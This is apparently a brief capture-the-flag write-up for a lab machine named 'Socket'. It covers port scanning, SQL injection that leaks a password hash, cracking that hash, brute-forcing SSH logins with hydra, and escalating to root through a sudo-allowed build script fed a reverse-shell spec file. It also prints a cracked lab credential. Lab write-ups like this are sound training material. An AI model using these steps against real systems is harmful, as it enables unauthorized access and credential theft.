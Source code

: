 # Socket

## IP = 10.10.11.206

### Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
|_http-title: Site doesn't have a title (text/html; charset=utf-8)
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5789/tcp open  unknown
```

### Download app, sample qrcode: kavigihan
### Decompile the code
https://github.com/zrax/pycdc

### SQLite Injection
{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": null, "downloads": null}}

Crackstation (md5)
__password__: denjanjade122566

### Thomas Keller in the "reports"
Using username-anarchy, generate possiblw usernamers
```
# /opt/username-anarchy/username-anarchy thomas keller > usernames.txt              
# hydra -L usernames.txt -p denjanjade122566 10.10.11.206 ssh
[22][ssh] host: 10.10.11.206   login: tkeller   password: denjanjade122566
```

### `tkeller:denjanjade122566`, user.txt


### sudo -l
```
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

### easy privesc
1. Revshell in `rev.spec`
2. Execute: `sudo /usr/local/sbin/build-installer.sh build rev.spec`

### root.txt